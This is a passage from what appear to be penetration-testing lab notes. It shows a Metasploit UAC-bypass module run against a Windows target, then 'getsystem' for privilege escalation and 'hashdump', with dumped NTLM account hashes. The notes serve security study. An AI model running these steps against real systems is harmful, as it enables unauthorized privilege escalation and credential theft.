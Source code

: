 ```bash
set TARGET Windows\ x64
run
```

![Metasploit - exploit/windows/local/bypassuac_injection](3-metasploitassets/image-20230419201340464.png)

- Now the **`getsystem`** command should work

```bash
getsystem
```

![](3-metasploitassets/image-20230419201434045.png)

### Hashes Dump

```bash
hashdump
```

```bash
admin:1012:aad3b435b51404eeaad3b435b51404ee:4d6583ed4cef81c2f2ac3c88fc5f3da6:::
Administrator:500:aad3b435b51404eeaad3b435b51404ee:f168d9f8e6c5b893b8c4dfa202228235:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```
